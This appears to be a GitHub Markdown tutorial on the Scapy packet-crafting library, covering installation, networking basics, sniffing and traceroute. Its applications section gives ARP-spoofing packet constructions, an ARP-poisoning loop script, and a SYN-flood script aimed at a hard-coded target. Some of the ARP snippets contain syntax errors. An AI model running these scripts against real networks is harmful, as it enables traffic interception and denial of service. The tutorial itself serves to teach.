







# SCAPY

### Introduction

##### What is [Scapy](https://en.wikipedia.org/wiki/Scapy)? 

  - a packet manipulation tool for computer networks written in [Python](https://www.python.org/downloads/)
  - a powerful interactive packet manipulation program
  - can replace hping, arpspoof, arp-sk, arping, p0f and even some parts of Nmap, tcpdump, and tshark

##### What can Scapy do?  

  - send, sniff and dissect and forge network packets
  - forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more
  - easily handle most classical tasks like scanning, tracerouting, probing, unit tests, attacks or network discovery
  - construct tools that can probe, scan or attack networks


Scapy provides a Python interface into libpcap, (WinPCap/Npcap on Windows), in a similar way to that in which [Wireshark](https://www.wireshark.org/) provides a view and capture GUI. It can interface with several other programs to provide visualization including Wireshark for decoding packets, [GnuPlot](http://www.gnuplot.info/) for providing graphs, [graphviz](https://www.graphviz.org/) or [VPython](https://vpython.org/) for visualization, etc. 


##### With most other networking tools
  - can’t build something the author did not imagine
  - usually confuse decoding and interpreting
  - even programs which only decode do not give you all the information they received

##### Scapy tries to overcome those problems

- It enables you to build exactly the packets you want. 
- Scapy has a flexible model that tries to avoid such arbitrary limits. 
- You’re free to put any value you want in any field you want and stack them like you want. 

In fact, it’s like building a new tool each time, but instead of dealing with a hundred line C program, you only write 2 lines of Scapy. After a probe (scan, traceroute, etc.) Scapy always gives you the full decoded packets from the probe, before any interpretation. That means that you can probe once and interpret many times, ask for a traceroute and look at the padding for instance. 

##### Versions

| Scapy Version | Python2 Support | Python3 Support|
| ------ | ------ | ------ |
| 2.4.x+ | 2.7+ | 3.4+ |
| 2.x | 2.7+ | - |


### Installation
##### 1. Install [Python 2.7.X or 3.4+](https://www.python.org/downloads/)
##### 2. Download and install Scapy
  - Use pip: 
```sh
$ pip install scapy
```
  - Or download the latest version to a temporary directory and install it in the standard distutils ways: 
```sh
$ cd /tmp 
$ wget–trust-server-names https://github.com/secdev/scapy/archive/master.zip 
$ unzip master.zip 
$ cd master 
$ sudo python setup.py install 
```

  - Or download the current development version: 
Install the Git version control system. For example, on Debian/Ubuntu use:
```sh
$ sudo apt-get install git
```
Check out a clone of Scapy’s repository:  
```sh
$ git clone http://github.com/secdev/scapy 
```
Install Scapy in the standard distutils way:
```sh
$ cd scapy
$ sudo python setup.py install 
```
##### 3. Follow the [platform-specific instructions (dependencies)](https://scapy.readthedocs.io/en/latest/installation.html#platform-specific-instructions).
###### For Linux 
Scapy can run natively on Linux, without libdnet and libpcap. 

###### For Mac OS X 
On Mac OS X, Scapy does not work natively. You need to install Python bindings to use libdnet and libpcap. You can choose to install using either Homebrew or MacPorts. They both work fine, yet Homebrew is used to run unit tests with Travis CI. 

###### For Windows 
Scapy is primarily being developed for Unix-like systems and works best on those platforms. But the latest version of Scapy supports Windows out-of-the-box. So, you can use nearly all of Scapy’s features on your Windows machine as well. 
##### 4. (Optional): Install [additional software for special features](https://scapy.readthedocs.io/en/latest/installation.html#optional-software-for-special-features)
For some special features, you have to install more software. Most of those software are installable via pip. 
##### 5. Run Scapy with root privileges 
```sh
$ sudo scapy
```
### Network backgroud
It is needed to understand how protocols work before trying to break the flow or attempt to ‘corrupt’ the transmission of ‘packets’. OSI and TCP/IP models represent how packets are encapsulated. When packets are sent across the network, they are packed with information. A basic Ethernet and TCP-IP packet is shown as following.


##### OSI Model
[The Open Systems Interconnection model (OSI model)](https://en.wikipedia.org/wiki/OSI_model) is a conceptual model that characterizes and standardizes the communication functions of a telecommunication or computing system without regard to its underlying internal structure and technology. Its goal is the interoperability of diverse communication systems with standard protocols. The model partitions a communication system into abstraction layers. The original version of the model defined seven layers.

A layer serves the layer above it and is served by the layer below it. For example, a layer that provides error-free communications across a network provides the path needed by applications above it, while it calls the next lower layer to send and receive packets that comprise the contents of that path. Two instances at the same layer are visualized as connected by a horizontal connection in that layer.


##### TCP/IP Model
The Internet protocol suite is the conceptual model and set of communications protocols used in the Internet and similar computer networks. It is commonly known as TCP/IP because the foundational protocols in the suite are the Transmission Control Protocol (TCP) and the Internet Protocol (IP). It is occasionally known as the Department of Defense (DoD) model because the development of the networking method was funded by the United States Department of Defense through DARPA.

The Internet protocol suite provides end-to-end data communication specifying how data should be packetized, addressed, transmitted, routed, and received. This functionality is organized into four abstraction layers, which classify all related protocols according to the scope of networking involved. From lowest to highest, the layers are the link layer, containing communication methods for data that remains within a single network segment (link); the internet layer, providing internetworking between independent networks; the transport layer, handling host-to-host communication; and the application layer, providing process-to-process data exchange for applications.


### Basic Usage
##### A Simple Packet and its Headers 

The basic unit in a network communication is the packet. So let's create one! 
Scapy builds packets by the layers and then by the fields in each layer. Each layer is nested inside the parent layer, represented by the < and > brackets. 

Let's start by specifying the packet's source IP and then its destination IP. This type of information goes in the IP header, which is a layer 3 protocol in the OSI model: 

```sh
>>> ip = IP(src="192.168.1.114") 
>>> ip.dst="192.168.1.25" 
>>> ip 
<IP  src=192.168.1.114 dst=192.168.1.25 |> 
```
Now let's add a layer 4 protocol, such as  TCP or UDP. To attach this header to the previous, we use the the operator / (which is used as a composition operator between layers): 
```sh
>>> ip/TCP() 
<IP  frag=0 proto=tcp src=192.168.1.114 dst=192.168.1.25 |<TCP  |>> 
>>> tcp=TCP(sport=1025, dport=80) 
>>> (tcp/ip).show() 
###[ TCP ]###  
  sport= 1025 
  dport= http 
  seq= 0 
  ack= 0 
  dataofs= None 
  reserved= 0 
  flags= S 
  window= 8192 
  chksum= None 
  urgptr= 0 
  options= [] 
###[ IP ]###  
     version= 4 
     ihl= None 
     tos= 0x0 
     len= None 
     id= 1 
     flags=  
     frag= 0 
     ttl= 64 
     proto= hopopt 
     chksum= None 
     src= 192.168.1.114 
     dst= 192.168.1.25 
     \options\ 
```
We could even go further, adding layer 2 protocols such as Ethernet or IEEE 802.11: 


##### Sending packet
Scapy can send packets in layer2 or layer 3. Now, let’s create an ICMP packet with some messages and send it : 
```sh
>>> packet = IP(dst="192.168.1.114")/ICMP()/"Helloooo!" 
>>> send(packet) 
. 
Sent 1 packets. 
>>> packet.show() 
###[ IP ]###  
  version= 4 
  ihl= None 
  tos= 0x0 
  len= None 
  id= 1 
  flags=  
  frag= 0 
  ttl= 64 
  proto= icmp 
  chksum= None 
  src= 10.0.2.15 
  dst= 192.168.1.114 
  \options\ 
###[ ICMP ]###  
     type= echo-request 
     code= 0 
     chksum= None 
     id= 0x0 
     seq= 0x0 
###[ Raw ]###  
        load= 'Helloooo!' 
```

##### Network  sniffing  
In Scapy, packet sniffing can be done with the function sniff(). The iface parameter tells the sniffer which network interface to sniff on. The count parameter specifies how many packet we want to sniff (where a blank value is infinite), to see the output in real time and dump the data into a file, we use the lambda function with summary: 
```sh
>>>Sniff(iface="eth0",count=5,filter="tcp",prn = lambda x:x.summary)
>>> sniff(iface="eth0",count=5,filter="tcp",prn=lambda x:x.summary)
<bound method Ether.summary of <Ether  dst=52:54:00:12:35:02 src=08:00:27:f8:42:a7 type=0x800 |<IP  version=4 ihl=5 tos=0x0 len=60 id=47438 flags=DF frag=0 ttl=64 proto=tcp chksum=0xd790 src=10.0.2.15 dst=209.148.204.57 options=[] |<TCP  sport=37576 dport=http seq=2343287247 ack=0 dataofs=10 reserved=0 flags=S window=29200 chksum=0xaa0b urgptr=0 options=[('MSS', 1460), ('SAckOK', ''), ('Timestamp', (3872854558, 0)), ('NOP', None), ('WScale', 7)] |>>>>
<bound method Ether.summary of <Ether  dst=08:00:27:f8:42:a7 src=52:54:00:12:35:02 type=0x800 |<IP  version=4 ihl=5 tos=0x0 len=44 id=51851 flags= frag=0 ttl=64 proto=tcp chksum=0x664 src=209.148.204.57 dst=10.0.2.15 options=[] |<TCP  sport=http dport=37576 seq=1770880001 ack=2343287248 dataofs=6 reserved=0 flags=SA window=65535 chksum=0x3016 urgptr=0 options=[('MSS', 1460)] |<Padding  load='\x00\x00' |>>>>>
<bound method Ether.summary of <Ether  dst=52:54:00:12:35:02 src=08:00:27:f8:42:a7 type=0x800 |<IP  version=4 ihl=5 tos=0x0 len=40 id=47439 flags=DF frag=0 ttl=64 proto=tcp chksum=0xd7a3 src=10.0.2.15 dst=209.148.204.57 options=[] |<TCP  sport=37576 dport=http seq=2343287248 ack=1770880002 dataofs=5 reserved=0 flags=A window=29200 chksum=0xa9f7 urgptr=0 |>>>>
<bound method Ether.summary of <Ether  dst=52:54:00:12:35:02 src=08:00:27:f8:42:a7 type=0x800 |<IP  version=4 ihl=5 tos=0x0 len=328 id=47440 flags=DF frag=0 ttl=64 proto=tcp chksum=0xd682 src=10.0.2.15 dst=209.148.204.57 options=[] |<TCP  sport=37576 dport=http seq=2343287248 ack=1770880002 dataofs=5 reserved=0 flags=PA window=29200 chksum=0xab17 urgptr=0 options=[] |<Raw  load='GET /success.txt HTTP/1.1\r\nHost: detectportal.firefox.com\r\nUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\nAccept: */*\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nCache-Control: no-cache\r\nPragma: no-cache\r\nConnection: keep-alive\r\n\r\n' |>>>>>
<bound method Ether.summary of <Ether  dst=08:00:27:f8:42:a7 src=52:54:00:12:35:02 type=0x800 |<IP  version=4 ihl=5 tos=0x0 len=40 id=51852 flags= frag=0 ttl=64 proto=tcp chksum=0x667 src=209.148.204.57 dst=10.0.2.15 options=[] |<TCP  sport=http dport=37576 seq=1770880002 ack=2343287536 dataofs=5 reserved=0 flags=A window=65535 chksum=0x46b3 urgptr=0 |<Padding  load='\x00\x00\x00\x00\x00\x00' |>>>>>
<Sniffed: TCP:5 UDP:0 ICMP:0 Other:0>

```


### Scapy Application
##### 1. Traceroute
Traceroute are computer network diagnostic commands for displaying the path and measuring transit delays ff packets across an Internet Protocol network.  

With Scapy, this can be done very easily with the following code. 

```sh
>>> conf.geoip_city = "/Users/chunyangjia/Desktop/GeoLite2-City.mmdb" 
>>> traceroute_map(["www.google.ca"]) 
```


In this example, we used the traceroute_map() function to print the graphic. This method is a shortcut which uses the world_trace of the TracerouteResult Object. To enable this functions, it is required to have installed the geoip2 module, its database and the cartopy module.  

##### 2. DNS Spoofing  
DNS spoofing occurs when a particular DNS server's records of "spoofed" or altered maliciously to redirect traffic to the attacker. This redirection of traffic allows the attacker to spread malware, steal data, etc. For example, if a DNS record is spoofed, then the attacker can manage to redirect all the traffic that relied on the correct DNS record to visit a fake website that the attacker has created to resemble the real site or a different site completely. 
How Does Normal DNS Communication Work:


This [video](https://www.youtube.com/watch?v=mpQZVYPuDGU&t=2s) helps explain about how a DNS server works.  

##### 3. [ARP Spoofing](https://en.wikipedia.org/wiki/ARP_spoofing) 

###### Host spoofing 
When a host PC1 is deceived by ARP requests, the ARP package is constructed as follows: 
```sh
>>> spoof_xiaoming = Ether(src=[Tricker MAC], dst=[PC1 MAC])/ARP(psrc=PC1 IP, pdst=Gateway IP ,hwdst=Tricker MAC, pdst=PC1 MAC, op=2) 
```
The op value is 1 or 2, representing the ARP request or response package. Here we need to forge a response package, so fill in 2. 

###### Gateway spoofing 
When the Gateway is deceived by ARP requests, the ARP package is constructed as follows:
```sh
>>> spoof_gateway = Ether(src=[Tricker MAC], dst=[Gateway MAC])/ARP(hwsrc= Tricker MAC, psrc= PC1 IP, hwdst= Gateway MAC, pdst= Gateway IP, op=2) 
```

```javascript
from scapy.all import *
AttackIP = raw_input("Please input the IP of GateWay:")
AttackIP_PC = raw_input("Please input the IP PC:")
srploop(Ether(dst = "00:0C:29:4B:B2:8C")/ARP(op = "is-at", pdst = "192.168.100.9", hwdst = "00:0C:29:4B:B2:8C", psrc = AttackIP, hwsrc = "04:54:53:05:41:44"))"
```

##### 4. [SYN Flood](https://en.wikipedia.org/wiki/SYN_flood) 
SYN Flooding is a form of DoS attack where an attack sends a succession of SYN requests to a target’s system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.



In order to perform SYN flood attack using scapy, the first step is make a SYN packet and send to the server. 
```sh
#! /usr/bin/python

from scapy.all import *
def synFlood(src,tgt):
    
    for sport in range(1024,65535):
        L3 = IP(src=src, dst = tgt)
        L4 = TCP(sport = sport, dport =1337)
        L5 = "This is hackicng test"
        packet = L3/L4/L5
        send(packet)

src="10.0.2.15"
tgt="172.30.139.223"
synFlood(src, tgt)
```
If we build a sever and a client, send  SYN packets to destination port. For few packets the server will reserve space in the buffer and reply with a SYN+ACK, waiting for ACK from client which will never be sent. 

Once the server TCP buffer gets exhausted, it will send RA (Reset + ACK) packets. This packet means that the SYN is received and acknowledged by the server but a connection to the server is refused.

When the server is exhausted and resetting all the connections, at this time even if a genuine client tries to access the services of the server application, then its request for connection will also be refused.

So how to mitigate SYN flood attack? There are a few approaches:

- Increasing Backlog queue
- Recycling the Oldest Half-Open TCP connection
- SYN cookies

### Conclusion  
##### Some supported protocols
ARP, BOOTP, DHCP, DNS, 802.11, WEP, 802.3, Ethernet, 802.1q, L2CAP, LLC, SNAP, EAP, HSRP, IP, UDP, TCP, ISAKMP, MobileIP, NBTSession, NTP, PPP, PPPoE, Prism Headers, RIP, STP, Sebek, Skinny, SMBMailSlot . . . 

##### Some applications
ARP cache poisonning, VLAN hopping, DNS spoofing, OS fingerprinting, DoSing, Dynamic DNS updates, traceroutes, scanning, network discovery, Access Point Spoofing, Wi-Fi signal strength measuring, DHCP server, DHCP spoofing, DHCP exhaustion, . . . 

##### Limitations

- Can’t handle too many packets. Won’t replace a mass-scanner. 
- Usually don’t interpret for you. You must know what you’re doing. 
- Stimulus/response(s) model. Won’t replace netcat,socat, . . . easily 

##### Pros
- Scapy has its own ARP stack and its own routing table. 
- Scapy works the same for layer 2 and layer 3 
- Scapy bypasses local firewalls 
- Fast packet designing 
- Default values that work 
- Unlimited combinations 
- Probe once, interpret many 
- Interactive packet and result manipulation 

### Resources
[Scapy: Packet crafting for Python2 and Python3](https://scapy.net/)
[Official online documentation](https://scapy.readthedocs.io/en/latest/)
[Interactive tutorial of Scapy](https://scapy.readthedocs.io/en/latest/usage.html#interactive-tutorial)
[Network packet manipulation with Scapy](http://www.secdev.org/conf/scapy_hack.lu.pdf)
[Internet protocol suite](https://en.wikipedia.org/wiki/Internet_protocol_suite)

